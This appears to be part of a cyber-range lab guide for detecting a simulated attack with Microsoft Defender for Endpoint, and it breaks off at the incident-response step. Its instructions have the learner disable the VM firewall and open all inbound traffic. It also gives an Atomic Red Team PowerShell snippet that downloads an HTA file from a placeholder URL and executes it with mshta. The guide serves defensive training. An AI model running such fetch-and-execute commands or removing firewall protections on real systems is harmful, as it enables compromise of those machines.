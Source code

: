 - Disable your VM’s firewall and configure your VM Network Security Group (NSG) to allow all inbound traffic. See instructions on how to do this by **[clicking here](https://www.skool.com/cyber-range/classroom/1e12b5ac?md=c32ee90cd87a4cbc9075a16613491ce6)**

- Onboard your VM to Microsoft Defender for Endpoint (EDR). See instructions on how by **[clicking here.](https://www.skool.com/cyber-range/classroom/7ffd6346?md=8f3753c7a6244a6d891688706d46fab9)**

- **Once you created your VM, log into it. Then download and install the following tools into the VM (Get links from Intro Page):**

- Git for Windows (Choose “Git from Command Line and 3rd Party Software”. Everything else, choose the default install settings.)


![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcYioYVoR_uylfovnolTygyYjNKzH-my6cJfXN-t_XcUcdYa7FYr77xzo2Xj5A536se6Jn2bQ_49S7IS1eBA5e3z3kawcT8MJGiYh3FGKpTATN4fWNPXYG1PgfrNqa8-ntZ8OWy?key=OzlnrPrbBmYlEQojYlWMzmor)

  

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeArEYBw0Hri1mhQuTMQU-YeUmuJnIMqk_lGKRfN6be7n24VgIpFF0sxjs042CJo78ivJicrEytJ_NqALrIfqUAxkFuNEPDbI28SAcIeff6iuXSJivyQMNaUkecCOHSrNLN6tPGvg?key=OzlnrPrbBmYlEQojYlWMzmor)

**

_______
# **Step 2 - Run the Atomic Script Attack**

---

Now that our VM  is setup, the next step is to run and detonate the Atomic Red malicious script into our VM and see if we can detect it. **Here are the instructions to execute FROM WITHIN YOUR VM:*

1. open up Powershell as an Admnistrator and run the following powershell commands in the following order:

2. git clone https://github.com/redcanaryco/atomic-red-team.git
	 This downloads the full library of Atomic Red simulated attacks into your VM, including the script we are using. 

3. Run the atomic script
```
$var =Invoke-WebRequest "#{hta_url}"
$var.content|out-file "#{temp_file}"
mshta "#{temp_file}"
start-sleep -s 15
stop-process -name "calculator" -Force -ErrorAction Ignore
stop-process -name "CalculatorApp" -Force -ErrorAction Ignore
```

-  **Restore your firewall and NSG settings** so that your VM does not get further compromised!

**That’s it!** You have successfully detonate this malicious script. Now let’s check if MDE has detected this attack in the next section so we can begin our Incident Response investigation!

___
# **Step 3 - Conduct Incident Response Investigation**

---